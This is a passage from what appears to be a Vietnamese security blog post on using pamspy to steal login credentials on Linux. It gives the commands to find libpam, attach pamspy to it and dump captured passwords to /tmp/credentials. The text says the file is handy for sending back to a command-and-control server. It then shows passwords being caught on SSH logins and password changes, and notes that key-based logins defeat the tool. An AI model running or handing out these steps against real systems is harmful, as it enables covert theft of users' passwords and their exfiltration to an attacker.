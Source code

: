 ```
./pamspy -p /lib/x86_64-linux-gnu/libpam.so.0
```

Trường hợp chúng ta chưa xác định chính xác vị trí `libpam`, ta có thể sử dụng câu lệnh sau

```
./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4)
```

Hoặc muốn output ra một file để tiện theo dõi hoặc send về C&C 

```
./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /tmp/credentials

```

Pamspy "bắt" được mật khẩu khi người dùng từ nơi khác đăng nhập thông qua SSH

![](https://images.viblo.asia/29e8f568-aab3-4372-9aef-40036cc48edb.png)

hay khi người dùng trên máy đổi mật khẩu 

![](https://images.viblo.asia/8ea9ee80-246c-4d76-99f8-851629eec581.png)


Tuy nhiên, quá trình sẽ thất bại nếu nạn nhân sử dụng private key để đăng nhập 


![](https://images.viblo.asia/d4f498a5-1704-4ccb-b83c-169b26235dd8.png)